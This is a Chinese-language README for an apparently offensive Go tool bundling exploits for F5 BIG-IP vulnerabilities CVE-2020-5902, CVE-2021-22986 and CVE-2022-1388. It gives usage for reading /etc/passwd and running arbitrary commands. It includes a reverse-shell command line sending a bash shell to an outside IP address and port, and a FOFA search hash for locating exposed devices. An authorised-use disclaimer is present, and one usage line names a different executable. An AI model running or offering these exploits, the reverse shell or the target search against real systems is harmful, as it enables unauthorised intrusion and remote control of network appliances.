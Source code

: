 # F5-BIG-IP POC

go语言编写CVE-2020-5902 CVE-2021-22986 CVE-2022-1388 POC集合 后续会增加F5其他POC

author:160team.west9B

**仅限用于安全研究人员在授权的情况下使用，遵守网络安全法，产生任何问题，后果自负，与作者无关。**

# 01-基本介绍

F5 POC合集：

CVE-2020-5902：F5 BIG-IP远程代码执行漏洞

CVE-2021-22986：F5 BIG-IP iControl REST未授权远程命令执行漏洞

CVE-2022-1388：身份验证绕过远程命令执行



# 02-使用说明

## usage: ./F5-BIG-IP  -u url 

CVE-2020-5902验证使用任意文件下载，返回/etc/passwd 则漏洞存在

CVE-2021-22986，CVE-2022-1388 POC默认执行id命令，返回{id}则漏洞存在，可使用-c自定义命令

## 反弹shell

usage: ./cve-2022-30525.exe -m exp -u url -c bash -i >& /dev/tcp/47.243.251.103/1377 0>&1

# Screenshots


# fofa
icon_hash="-335242539"

